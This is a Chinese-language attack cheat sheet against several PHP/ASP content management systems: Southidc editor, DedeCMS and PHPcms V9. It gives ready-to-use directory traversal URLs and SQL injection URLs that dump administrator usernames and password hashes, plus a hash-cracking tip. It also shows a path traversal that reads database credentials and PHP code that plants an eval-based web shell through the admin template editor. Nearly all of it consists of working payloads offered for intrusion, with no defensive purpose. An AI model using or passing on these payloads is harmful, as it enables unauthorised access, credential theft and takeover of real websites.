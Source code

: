 默认后台：admin/Southidceditor/admin_style.asp

数据库路径：admin/SouthidcEditor\Datas\SouthidcEditor.mdb

遍历目录：admin/Southidceditor/admin_uploadfile.asp?id=14&dir=../..

文件上传页面：admin/Southidceditor/ewebeditor.asp?id=57&style=southidc

样式设置页面：admin/SouthidcEditor/Admin_Style.asp?action=styleset&id=47



dedecms最新注入漏洞及找后台技巧 :

访问这个：plus/search.php?keyword=as&typeArr[ uNion ]=a

看结果如果提示：Safe Alert: Request Error step 1 !那么直接用下面的exp爆出所有管理员的帐号密码：

plus/search.php?keyword=as&typeArr[111%3D@\')+and+(SELECT+1+FROM+(select+count(),concat(floor(rand(0)2),(substring((select+CONCAT(0x7c,userid,0x7c,pwd)+from+%23@__admin+limit+0,1),1,62)))a+from+information_schema.tables+group+by+a)b)%23@\'+]=a

看结果如果提示：Safe Alert: Request Error step 2 !

那么直接用下面的exp爆出所有管理员的帐号密码

plus/search.php?keyword=as&typeArr[111%3D@\')+UnIon+seleCt+1,2,3,4,5,6,7,8,9,10,userid,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,pwd,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42+from+%23@__admin%23@\'+]=a

有些/plus/目录换成了/plugins/目录，这时就要把/plus/换成/plugins/进行注射了

破解出md5为20位结果，只需要把前三位和后一位去掉，剩余16位拿去解密即可

如何找后台？

默认后台：dede

第一种方法：data/mysql_error_trace.inc （有时可以爆出路径）

第二种方法：把域名作为后台去尝试

第三种方法：查看这个文件：robots.txt

第四种方法：ping下域名获得ip之后，http://www.bing.com/ 搜索：ip:127.0.0.1 php （可能获得后台也可以获得其他旁注站，一般dede的旁站很多也是dedecms的）



PHPcms V9 爆数据库信息漏洞:

直接爆出数据库连接信息：
/index.php?m=search&c=index&a=public_get_suggest_keyword&url=asdf&q=../../phpsso_server/caches/configs/database.php

关于后台拿webshell：进入后台后点击界面–模版风格–随便找个页面点击修改，插入我们的一句话代码

<?$fp = @fopen(“0day.php”, ‘a’);

@fwrite($fp, ‘<‘.’?php’.”\r\n\r\n”.’eval($_POST[0day])’.”\r\n\r\n?”.”>\r\n”);
点击保存，接着点击可视化，代码就成功执行了，接着菜刀连接/0day.php，密码0day